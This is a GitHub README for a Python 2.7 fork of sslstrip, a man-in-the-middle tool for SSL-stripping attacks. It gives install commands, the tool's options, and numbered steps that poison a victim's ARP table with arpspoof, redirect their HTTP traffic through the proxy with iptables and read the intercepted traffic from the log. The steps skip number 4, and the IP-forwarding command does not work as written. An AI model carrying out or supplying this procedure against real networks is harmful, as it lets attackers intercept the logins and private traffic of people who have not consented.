 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
$ sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
$ pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
$ git clone https://github.com/juanelas/sslstrip.git
$ cd sslstrip
$ sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the command-line options.

```text
sslstrip 0.9.1
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (default sslstrip.log)
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   ```console
   $ sudo echo "1" > /proc/sys/net/ipv4/ip_forward
   ```

   > If you want to make this change persist after reboot, in Debian-like distros you could better uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with:
   >```console
   >$ sudo sysctl -p
   >```

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>` (if the `-l` option is omitted, `sslstrip` will listen on port `10000`)

   ```console
   $ sslstrip -l <yourListenPort>
   ```

3) Open a new terminal and setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   ```console
   $ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>
   ```

5) Use `arpspoof` to poison the victim's ARP table so that it sends all traffic to the Internet to your machine instead of its default gateway:

   ```console
   $ sudo arpspoof -t <victimIpAddress> <routerIpAddress>
   ```

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros, if not already installed, you can install it with:
   >```console
   >$ sudo apt update && sudo apt install dsniff
   >```

6) Open a network sniffer (e.g. wireshark, tcpdump), or directly inspect the sslstrip log file (`sslstrip.log` by default), e.g. by running in other terminal
   ```console
   $ tail -f sslstrip.log
   ```
